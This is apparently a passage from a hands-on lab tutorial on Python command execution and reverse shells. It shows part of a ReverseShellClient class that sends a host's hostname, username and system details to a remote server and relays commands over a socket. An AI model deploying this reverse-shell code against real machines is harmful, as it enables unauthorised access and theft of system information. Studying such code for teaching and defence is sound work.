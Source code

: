 ```python
                self.socket.send(f"""
System Information:
------------------
Platform: {self.system_info['platform']}
Hostname: {self.system_info['hostname']}
Username: {self.system_info['username']}
Architecture: {self.system_info['architecture']}
Version: {self.system_info['version']}
------------------
""".encode())

                self._handle_communication()
                break

            except Exception as e:
                print(f"[!] Connection failed: {e}")
                print("[*] Retrying in 5 seconds...")
                time.sleep(5)

    def _handle_communication(self):
        """
        Handles communication with the server
        """
        try:
            while True:
                prompt = self.socket.recv(1024).decode()
                sys.stdout.write(prompt)
                sys.stdout.flush()

                command = input()

                if command.lower() == 'exit':
                    self.socket.send(command.encode())
                    break

                self.socket.send(command.encode())
                response = self.socket.recv(4096).decode()
                print(response)

        except Exception as e:
            print(f"[!] Communication error: {e}")
        finally:
            self.socket.close()

if __name__ == "__main__":
    client = ReverseShellClient()
    client.connect()
```

## Summary

This lab provides hands-on experience with:

- Different command execution methods in Python
- Basic reverse shell implementation
- Client-server communication handling
